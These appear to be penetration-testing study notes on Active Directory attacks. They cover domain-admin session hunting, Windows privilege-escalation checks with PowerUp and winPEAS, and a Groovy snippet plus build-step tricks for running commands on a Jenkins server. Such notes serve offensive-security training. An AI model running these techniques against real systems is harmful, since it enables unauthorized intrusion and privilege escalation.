 - #### ***Find computers (File Servers and Distributed File Servers) where a domain admin session is available***
`Find-DomainUserLocation -Stealth` (PowerView)
- #### ***List sessions on remote machines (https://github.com/Leo4j/Invoke-SessionHunter)***
`Invoke-SessionHunter -FailSafe` (doesnt need admin access on remote machines. Uses Remote Registry and queries HKEY_USERS hive)
`Invoke-SessionHunter -NoPortScan -Targets C:\AD\Tools\servers.txt` (OpSec friendly command)
# **Privilege Escalation:**
In AD there are 2 scenarios which lead to Privilege Escalation:
1. Hunting for Local Admin acess on other machines 
2. Hunting for high privilege domain accounts (like Domain Administrator)
Ways of locally escalating privileges on Windows:
- Missing patches
- Automated deployment and AutoLogon password in clear text
- AlwaysInstallElevated (Any user can run MSI as SYSTEM)
- Misconfigured services
- DLL Hijacking and more
- NTLM Relaying aka Won't fix
### **Tools:**
[[Windows PrivEsc]]
**PowerUp:** [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
- #### ***Get services with unquoted paths and a space in their name***
`Get-ServiceUnquoted -Verbose`
- #### ***Get services where the current user can write to its binary path or change arguments to the binary***
`Get-ModifiableServiceFile -Verbose`
- #### ***Get the services whose configuration current user can modify***
`Get-ModifiableService -Verbose`
**Privesc:** [Privesc](https://github.com/enjoiz/Privesc)
***BEST*** - **winPEAS:** [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

- #### ***Run all checks***
`Invoke-AllChecks` (PowerUp)
`Invoke-PrivEsc` (Privesc)
`winPEASx64.exe` (winPEAS) - ***BEST***
# **Feature Abuse**
Target enterprise applications are not the focus of security teams and are not built keeping security in mind, many either need Administritive privileges or SYSTEM privileges
### **Jenkins**
older version as an example of vulnerable enterprise application.
Is widely used as a Continous Integration (CI) tool
Running system commands on a Jenkins server running on dcorp-ci (172.16.3.11:8080)
**NOT FOCUS TOO MUCH - JUST AN EXAMPLE**
2 ways of executing commands on a Jenkins Master:
1. If we have admin access -> http://IP:8080/script, in the script console, Groovy scripts could be executed:
```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[<INSERT_COMMAND>]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
2. If we dont have admin access, but could add or edit build steps in the build configuration. Add a build step, add "Execute Windows Batch Command" and enter:
`powershell -c <command>`, or download and execute a script, run encoded scripts, etc ...
